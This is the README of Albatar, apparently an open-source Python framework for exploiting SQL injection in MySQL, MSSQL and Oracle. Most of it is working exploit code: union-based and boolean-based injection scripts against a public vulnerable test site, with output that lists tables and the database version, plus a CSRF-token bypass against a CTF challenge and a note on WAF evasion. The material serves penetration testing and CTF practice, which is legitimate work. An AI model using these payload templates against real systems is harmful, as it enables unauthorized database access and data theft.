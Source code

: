I wrote Albatar to have a neat and tidy tool to exploit SQL Injection vulnerabilities.

Unlike [sqlmap](http://sqlmap.org/), Albatar will not detect SQL Injection vulnerabilities, it was primarily designed to help me exploit not-so-straightforward SQLIs where sqlmap would need tweaking and patching to work.

Albatar is a framework in Python. As a result, you need to write some Python code to be able to exploit the SQLI. Then simply invoke your script by passing sqlmap-like command line options (like --dbs, --banner etc.) to retrieve data from the database.

Currently, Albatar supports MySQL, MSSQL and Oracle with the Union, Error, Boolean and Time techniques.

## Examples

* Simple union-based SQLI (MySQL)

Let's use Albatar to exploit a dead-simple union-based SQLI at http://testphp.vulnweb.com/artists.php?artist=1. Clone the repository, and create the below script:
```python
from albatar import *
from urllib import quote
import re

PROXIES = {} #'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
HEADERS = ['User-Agent: Mozilla/5.0']

def extract_results(headers, body, time):
  return re.findall(':ABC:(.+?):ABC:', body, re.S)

def mysql_union():

  def make_requester():
    return Requester_HTTP(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://testphp.vulnweb.com/artists.php?artist=${injection}',
      method = 'GET',
      response_processor = extract_results,
      encode_payload = quote,
      )

  template = '-1 union all select null,null,concat(0x3a4142433a,X,0x3a4142433a) from ${query}-- '

  return Method_union(make_requester, template)

sqli = MySQL_Inband(mysql_union())

for r in sqli.exploit():
  print r
```

Then execute the script to exploit the SQLI:
```
$ python testphp-union.py -D acuart --tables
17:39:59 albatar - Starting Albatar v0.0 (https://github.com/lanjelot/albatar) at 2016-04-21 17:39 AEST
17:39:59 albatar - Executing: ('(SELECT COUNT(*) X FROM information_schema.tables WHERE table_schema="acuart")a', '(SELECT table_name X FROM information_schema.tables WHERE table_schema="acuart" LIMIT ${row_pos},${row_count})a')
17:39:59 albatar - count: 8
artists
carts
categ
featured
guestbook
pictures
products
users
17:40:05 albatar - Time: 0h 0m 5s
```

* Simple boolean-based SQLI (MySQL)

Here's how to exploit a boolean-based SQLI at http://testphp.vulnweb.com/listproducts.php?cat=1.
```python
from albatar import *
from urllib import quote
import re

PROXIES = {} #'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
HEADERS = ['User-Agent: Mozilla/5.0']

def test_state_grep(headers, body, time):
  if 'Lorem ipsum dolor sit amet' in body:
    return 1
  else:
    return 0

def mysql_boolean():

  def make_requester():
    return Requester_HTTP(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://testphp.vulnweb.com/listproducts.php?cat=${injection}',
      method = 'GET',
      response_processor = test_state_grep,
      encode_payload = quote
      )

  template = '1 and (ascii(substring((${query}),${char_pos},1))&${bit_mask})=${bit_mask}'

  return Method_bitwise(make_requester, template, confirm_char=True)

sqli = MySQL_Blind(mysql_boolean())

for r in sqli.exploit():
  print r
```

And execute:
```
$ python testphp.py -b
14:19:22 albatar - Starting Albatar v0.0 (https://github.com/lanjelot/albatar) at 2016-04-21 14:19 AEST
14:19:22 albatar - Executing: 'SELECT VERSION()'
5.1.73-0ubuntu0.10.04.1
14:19:41 albatar - Time: 0h 0m 19s
```

* Encoding / WAF evasion

If you need to encode your payload to meet specific requirements, simply code a function to mangle the payload in every request.
The web task [luhn-300](https://github.com/ctfs/write-ups-2016/tree/master/nullcon-hackim-2016/web/luhn-300) from Hackim CTF 2016 was a good example to showcase this.

* CSRF tokens

If you need to do anything before or after submitting the SQLI payload, simply extend the Requester class. For example, if you need to provide a CSRF token, like with the web task [hackme-400](https://github.com/ctfs/write-ups-2016/tree/master/su-ctf-2016/web/hackme-400) from SU CTF 2016, write something like this:
```python
...
class Requester_CSRF(Requester_HTTP_requests):

  def test(self, payload):
    response = self.session.get('http://ctf.sharif.edu:35455/chal/hackme/8b784460681e5282/login.php')
    token = re.search("name='user_token' value='([^']+)'", response.text).group(1)
    self.http_opts[2] = self.http_opts[2].replace('_CSRF_', token)

    return super(Requester_CSRF, self).test(payload)

def mysql_union():

  def make_requester():
    return Requester_CSRF(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://ctf.sharif.edu:35455/chal/hackme/8b784460681e5282/login.php',
      body = 'username=${injection}&password=asdf&Login=Login&user_token=_CSRF_',
      method = 'POST',
      response_processor = extract_results,
      encode_payload = quote,
      )

  template = "a' union select concat(0x3a4142433a,X,0x3a4142433a),null,null,null from ${query} #"

  return Method_union(make_requester, template, pager=10)
```

You could even write a brand new Requester class to exploit a SQLI that is not in a web application, but in a command line application for example.

* More

Find more examples in [demo.py](demo.py).
